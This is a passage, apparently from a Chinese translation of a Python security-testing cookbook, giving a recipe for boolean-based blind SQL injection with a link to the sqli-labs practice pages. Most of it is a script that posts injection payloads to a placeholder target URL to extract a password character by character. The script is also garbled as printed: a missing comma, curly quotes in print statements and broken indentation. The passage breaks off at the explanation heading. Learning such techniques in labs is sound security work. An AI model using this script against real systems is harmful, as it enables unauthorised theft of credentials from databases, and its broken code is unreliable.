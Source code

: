 Audi-1 制作了一组有用的 SQLi 测试页面，可以在[`github.com/Audi-1/sqli-labs`](https://github.com/Audi-1/sqli-labs)找到。

# 利用布尔 SQLi

有时你只能从页面上得到一个是或否的答案。当你意识到这就是 SQL 等价于说“我爱你”的时候，这是令人心碎的。所有的 SQLi 都可以分解成是或否的问题，取决于你的耐心。

我们将创建一个脚本，它接受一个`yes`值和一个 URL，并根据预定义的攻击字符串返回结果。我提供了一个示例攻击字符串，但这将根据您正在测试的系统而变化。

## 如何做...

以下脚本是您的脚本应该的样子：

```py
import requests
import sys

yes = sys.argv[1]

i = 1
asciivalue = 1

answer = []
print “Kicking off the attempt”

payload = {'injection': '\'AND char_length(password) = '+str(i)+';#', 'Submit': 'submit'}

while True:
  req = requests.post('<target url>' data=payload)
  lengthtest = req.text
  if yes in lengthtest:
    length = i
    break
  else:
    i = i+1

for x in range(1, length):
  while asciivalue < 126:
payload = {'injection': '\'AND (substr(password, '+str(x)+', 1)) = '+ chr(asciivalue)+';#', 'Submit': 'submit'}
      req = requests.post('<target url>', data=payload)
      if yes in req.text:
    answer.append(chr(asciivalue))
break
  else:
      asciivalue = asciivalue + 1
      pass
asciivalue = 0
print “Recovered String: “+ ''.join(answer)
```

## 它是如何工作的...
